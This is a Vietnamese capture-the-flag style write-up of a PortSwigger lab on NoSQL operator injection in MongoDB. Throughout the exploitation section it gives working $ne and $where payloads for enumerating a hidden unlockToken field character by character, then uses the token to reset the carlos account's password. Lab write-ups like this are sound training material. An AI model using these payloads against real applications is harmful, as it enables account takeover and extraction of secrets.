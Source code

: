 # Write-up: Lab: Exploiting NoSQL operator injection to extract unknown fields

### Tổng quan
Khai thác lỗ hổng NoSQL injection trong chức năng user lookup sử dụng MongoDB, tận dụng toán tử `$ne` và `$where` để dò trường ẩn `unlockToken`, trích xuất giá trị token, sử dụng token để truy cập chức năng đổi mật khẩu, đăng nhập tài khoản `carlos` và hoàn thành lab.

### Mục tiêu
- Sử dụng NoSQL injection để trích xuất trường `unlockToken`, lấy giá trị token, đổi mật khẩu tài khoản `carlos`, và đăng nhập để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Kiểm tra chức năng user lookup trên giao diện web.
- Trong Burp Suite Proxy, bắt được yêu cầu POST tới endpoint
    ![locked](./images/1_account_locked.png)
    - **Quan sát**: Ứng dụng sử dụng MongoDB NoSQL, gợi ý khả năng tồn tại lỗ hổng NoSQL injection trong xử lý JSON input:

2. **Khai thác (Exploitation)**
- Gửi yêu cầu `POST /login` tới Burp Repeater, thử NoSQL injection với `$ne`:
    - **Phản hồi**: "Account locked: please reset your password", xác nhận tài khoản carlos tồn tại và dễ bị NoSQL injection.
        ![locked](./images/1_account_locked.png)

- Thử thêm `$where` để kiểm tra điều kiện:
    `{"username":"carlos","password":{"$ne":"invalid"},"$where":"0"}`
        - **Phản hồi**: "Invalid username or password".
    `{"username":"carlos","password":{"$ne":"invalid"},"$where":"1"}`
        - **Phản hồi**: "Account locked: please reset your password", xác nhận $where có thể thao túng truy vấn MongoDB.

- Dò trường ẩn bằng `$where`:
    - Sửa JSON trong body và thực hiện brute force : `{"username":"carlos","password":{"$ne":"invalid"},"$where":"function(){if(Object.keys(this)[4].match(/^§a§/)) return 1; else return 0; }"}`
        ![intruder](./images/2_intruder.png)
        - **Phản hồi**: `"Account locked: please reset your password"`, xác nhận trường thứ 4 là `unlockToken`.

- Dò độ dài `unlockToken`:
    - `{"username":"carlos","password":{"$ne":"invalid"},"$where":"function(){if(this.unlockToken.length==§1§) return 1; else return 0; }"}`
    - Thay §1§ từ 1 đến 20, nhận phản hồi `"Account locked"` tại §1§=16, xác nhận độ dài unlockToken là 16.
        ![length](./images/3_length_pass.png)

- Dò từng ký tự của unlockToken
    - `{"username":"carlos","password":{"$ne":"invalid"},"$where":"function(){if(this.unlockToken[§0§]=='§a§') return 1; else return 0; }"}`
    - Thay §0§ từ 0 đến 15 và §a§ với các ký tự hex (0-9, a-z, A-Z), nhận giá trị unlockToken là `5e49c294c27a7c2a`.
        ![token](./images/4_token.png)

- Kiểm tra endpoint `/forgot-password` trong Burp Proxy:
    `GET /forgot-password?unlockToken=11 HTTP/2`
    - **Phản hồi**: "Invalid token", xác nhận tham số unlockToken tồn tại.
        ![get](./images/5_get_forgot-password.png)

- Sử dụng unlockToken đúng:
    `GET /forgot-password?unlockToken=5e49c294c27a7c2a HTTP/2`
    - **Phản hồi**: Truy cập được trang đổi mật khẩu, đặt mật khẩu mới là `1111`:
        ![change](./images/6_chage.png)

- Đăng nhập với `carlos`:`1111`:
    - **Phản hồi**: Đăng nhập thành công
        ![solved](./images/7_login.png)

- **Giải thích**: Lỗ hổng NoSQL injection cho phép thao túng truy vấn MongoDB với `$ne` và `$where`, dò trường ẩn `unlockToken`, lấy giá trị token để truy cập chức năng đổi mật khẩu do server không xác thực chặt chẽ input JSON.

### Bài học rút ra
- Hiểu cách khai thác NoSQL injection với $where để dò các trường ẩn và trích xuất dữ liệu nhạy cảm trong MongoDB.
- Nhận thức tầm quan trọng của việc xác thực và làm sạch input JSON, cũng như hạn chế sử dụng toán tử $where trong truy vấn MongoDB để ngăn chặn injection.

### Tài liệu tham khảo
- PortSwigger: NoSQL Injection

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác NoSQL injection để dò trường ẩn, trích xuất token, và bypass cơ chế xác thực, đồng thời hiểu cách bảo vệ ứng dụng MongoDB khỏi injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*